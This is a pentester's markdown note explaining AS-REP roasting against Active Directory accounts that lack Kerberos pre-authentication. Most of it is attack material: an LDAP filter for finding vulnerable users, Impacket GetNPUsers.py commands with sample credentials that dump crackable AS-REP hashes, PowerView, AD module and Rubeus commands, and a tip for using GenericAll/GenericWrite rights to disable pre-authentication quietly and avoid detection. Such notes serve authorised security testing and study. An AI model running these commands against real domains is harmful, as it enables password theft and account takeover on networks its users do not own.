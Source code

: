 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#impacket #powershell #rubeus
- Also known as targeted kerberoasting.
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
# Authenticated bind. Can fetch users automatically.
GetNPUsers.py 'mydomain.local/drdragon:Password!!' -dc-ip <IP> -outputfile asrep-hashes.txt

# Supply username
GetNPUsers.py 'mydomain.local/' -usersfile username.txt -dc-ip <IP> -outputfile asrep.hash
```
- Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
- Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- Rubeus
```powershell
.\Rubeus.exe asreproast
```
---
If a user has `GenericAll` or `GenericWrite` on another user, they can turn enable `DONT_REQUIRE_PREAUTH` and then request for TGT for that account. This is preferred over password reset because, password is much more noisy that turning of `DONT_REQUIRE_PREAUTH`.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
